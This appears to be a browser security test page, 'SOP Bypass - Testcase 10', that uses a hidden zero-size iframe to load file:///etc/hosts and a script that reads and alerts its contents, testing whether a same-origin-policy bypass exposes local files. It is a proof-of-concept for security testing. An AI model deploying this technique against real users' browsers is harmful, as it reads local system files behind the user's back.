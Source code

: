 ```yaml
---
layout: default
title: SOP Bypass - Testcase 10
permalink: /sop/new/10
---
```


Cross Scheme data exposure for bypassing SOP

<input type="button" id="btn_test" class="test" value="Run Test Case" onclick="myfunction()">
<iframe src="https://web.archive.org/web/20180831120301if_/file:///etc/hosts" name="myIframe" width="0px" height="0px" data-ruffle-polyfilled=""></iframe>
<script>
function myfunction() {
    var myIframe = frames.myIframe;
    var fenster = window.frames[0];
    var message = fenster.document.getElementsByTagName("pre")[0].childNodes[0].nodeValue;
    var messages = message;
    messages = messages.replace(/#/g, "");
    alert(messages);
    alert(window.frames['myIframe'].document.getElementsByTagName('pre')[0].innerHTML);
}
</script>

**Note:**
In case of a cross scheme exposure, the contents of /etc/hosts file would be displayed.
